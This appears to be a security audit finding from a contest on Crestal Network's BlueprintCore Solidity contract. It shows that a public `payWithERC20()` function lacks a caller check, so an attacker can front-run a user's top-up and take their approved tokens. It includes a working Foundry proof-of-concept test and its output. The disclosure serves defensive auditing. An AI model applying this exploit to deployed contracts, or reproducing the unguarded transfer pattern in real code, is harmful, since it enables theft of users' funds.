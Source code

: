 Melted Steel Puppy

High

# Attacker could front run user's top up due to lack of control check for `payWithERC20()` function

## Vulnerability details

The `BlueprintCore` contract facilitates a user for top up. The vulnerability arises when the `userTopUp()` function integrates with `payWithERC20()` function. The `payWithERC20()` function is intended to help protocol facilitating transfer token functionality. But, there is a lack of check leading to attacker front run a user when top up.

```solidity
    function userTopUp(address tokenAddress, uint256 amount) public {
        require(amount > 0, "Amount must be greater than 0");

        require(paymentAddressEnableMp[tokenAddress], "Payment address is not valid");

@>      payWithERC20(tokenAddress, amount, msg.sender, feeCollectionWalletAddress);

        // update user top up
        userTopUpMp[msg.sender][tokenAddress] += amount;

        emit UserTopUp(msg.sender, feeCollectionWalletAddress, tokenAddress, amount);
    }

    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
        // check from and to address
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");

        // @audit missing check for fromAddress and toAddress
        IERC20 token = IERC20(erc20TokenAddress);
        token.safeTransferFrom(fromAddress, toAddress, amount);
    }
```

The scenario following : 
1. Users approve `BlueprintCore` contract for some amount
2. Users call `userTopUp` function
3. Attacker front run users for directly calling `payWithERC20`

## Impact

Attacker steal tokens from users when users top up

## Proof of concept

```solidity
   function test_attackerFrontrunuserTopUp() public {
        uint256 topUpAmount = 100 * 10 ** 18;
        blueprint.addPaymentAddress(address(mockToken));

        // 1. user setup for payment
        vm.startPrank(user);
        mockToken.mint(user, topUpAmount);
        mockToken.approve(address(blueprint), topUpAmount);
        vm.stopPrank();

        // 2. attacker create a front run
        vm.prank(attacker);
        blueprint.payWithERC20(address(mockToken), topUpAmount, user, attacker);

        // 3. users can not top up
        vm.expectRevert();
        blueprint.userTopUp(address(mockToken), topUpAmount);

        // Verify the token transfer
        uint256 blueprintBalance = mockToken.balanceOf(address(blueprint.feeCollectionWalletAddress()));
        assertEq(blueprintBalance, 0);

        // verify user balance after top up
        uint256 balance = mockToken.balanceOf(attacker);
        assertEq(balance, topUpAmount);

        console.log("attacker : ", balance);
        console.log("feeCollectionWalletAddress : ", blueprintBalance);
    }
```

```bash
Ran 1 test for test/BlueprintV5.t.sol:BlueprintTest
[PASS] test_attackerFrontrunuserTopUp() (gas: 170065)
Logs:
  attacker :  100000000000000000000
  feeCollectionWalletAddress :  0
```

It also happens in : 
1. each functions which use createAgent internal function 
2. each functions which use updateWorkerDeploymentConfigCommon internal function

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25-L32